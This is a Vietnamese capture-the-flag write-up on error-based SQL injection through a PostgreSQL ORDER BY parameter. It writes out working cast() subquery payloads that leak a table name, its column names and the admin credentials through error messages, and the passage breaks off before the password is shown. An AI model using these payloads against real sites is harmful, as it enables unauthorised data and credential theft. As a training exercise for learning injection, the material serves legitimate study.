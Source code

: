 Chall này giới thiệu 1 loại sql injection mới: Error Based

Cách thức: cố tình thực hiện 1 câu sql có lỗi, làm hiển thị error message và qua error message ta sẽ biết được những thông tin cần tìm kiếm như tên bảng, tên cột,...

Một hàm có thể được sử dụng: `cast()`

Ví dụ cụ thể: cùng làm challenge này

Đương nhiên không dại gì fuzz ngay ở tab Authentication, chúng ta bấm vào tab Contents có nội dung:

> ------
>
> ### Contents List
>
> You need to be authenticated to access records

để ý URL có dạng `/?action=contents&order=ASC`, thêm 1 chữ A nữa vào đằng sau : `order=ASCA` và enter, ta được thông báo lỗi như sau:

> ERROR:  syntax error at or near "ASCA" LINE 1: ...out TO 100; COMMIT;SELECT * FROM contents order by page ASCA                                                                   ^

vậy ở đây đã lộ luôn cả câu truy vấn, nice. Theo đúng quy trình trong [link](https://www.exploit-db.com/docs/english/44348-error-based-sql-injection-in-order-by-clause-(mssql).pdf) tham khảo, ta thực hiện viết lại query với hàm cast để ép hiển thị lỗi:

`&order=ASC, cast((select table_name from information_schema.tables ) as int)`

lỗi:

> ERROR:  more than one row returned by a subquery used as an expression

vậy thêm limit 1 vào câu query trên,lỗi:

> ERROR:  invalid input syntax for integer: "m3mbr35t4bl3"

lỗi này hiện ra do tên bảng là 1 string trong khi ra đang cố cast nó về dạng int, vậy qua lỗi nay chúng ta biết được tên bảng là `m3mbr35t4bl3`

Tiếp tục viết câu truy vấn để xem tên cột:

`&order=ASC, cast((select column_name from information_schema.columns limit 1) as int)`

cột đầu tiên là id,không phải cột mình cần, muốn tìm các cột tiếp theo ta thêm offset 1, 2, 3,.. vào đằng sau limit 1

với offset 1, ta có cột `us3rn4m3_c0l`

với offset 2, ta có cột `p455w0rd_c0l`

có tên bảng, tên cột, tiếp tục truy vấn để lấy tài khoản admin:

`&order=ASC, cast((select us3rn4m3_c0l from m3mbr35t4bl3 limit 1) as int)`

`&order=ASC, cast((select p455w0rd_c0l from m3mbr35t4bl3 limit 1) as int)`

Mật khẩu admin:


